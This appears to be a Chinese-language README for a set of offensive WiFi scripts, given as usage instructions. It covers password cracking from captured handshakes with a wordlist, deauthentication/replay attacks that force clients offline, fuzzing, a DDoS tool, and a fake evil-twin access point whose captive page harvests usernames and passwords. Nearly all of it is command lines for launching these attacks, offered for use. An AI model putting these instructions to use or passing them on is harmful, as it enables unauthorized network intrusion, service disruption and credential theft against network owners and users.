 ## V2.0
### wifi_password_crack.py

使用python3 wifi_password_crack.py

另起一个终端执行:

`curl -d '{"bssid":"AP_bssid","dssid":"client_bssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10001/start`

静待60秒喝口咖啡大概率会出

### wifi_fuzz.py

使用python3 wifi_fuzz.py

`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10002/start`

### wifi_mimt.py

`curl -d '{"ssid":"eval","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10003/start`


### wifi_ddos.py

`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10004/start`

ddos极大概率打算继续拓展一下功能,能赶上wifi killer就行:)

## V1.0
### wifi.py

-device 指定网卡设备,若不指定此项则会使用wlan0
-bssid 必选项 若不指定无法正常工作
-w 指定字典 若不填则默认/usr/wordlist/rockyou.txt
-dssid 若使用a模式 则需要设置为被攻击设备的bssid

-mode 指定攻击模式,若不指定则默认使用s
	s 扫描模式 若指定-bssid则监听指定设备,若不指定则会进行全信道的扫描
	a 重放攻击,需要使用-dssid指定被攻击的设备
	c 破解模式,可使用-w来指定字典

python wifi.py 
进入扫描模式

python wifi.py -bssid [bssid]
监听此bssid的设备

python wifi.py -mdoe a -bssid [bssid] -dssid [dssid]
进行重放攻击 ,使设备强制离线重连(使用此选项时应该另开一个新终端以保证能一直进行抓包)

python wifi.py -mode c -w [passwordlist]
对wifi密码进行破解,-w选项可进行选填

-----

### wifi_MITM.py
使用此工具前应当先安装wifipumpkin3并确认能正常运行

-i 指定监听的网卡设备,若不指定则默认为wlan0
-ssid 必填项,指定要伪装的ssid
-p 代理模式
	0 无代理模式
	1 在 TCP 协议上拦截网络流量的代理
	2 允许阻止用户访问互联网，直到打开登录页面输入用户名和密码

sudo wifi_MITM.py -ssid [ssid]
此选项会根据指定的ssid名称来生成一个钓鱼wifi

sudo wifi_MITM.py -ssid [ssid] -p 2
此选项会根据指定的ssid名称来生成一个钓鱼wifi,用户连接后将会跳转至登录界面并要求输入账户名和密码
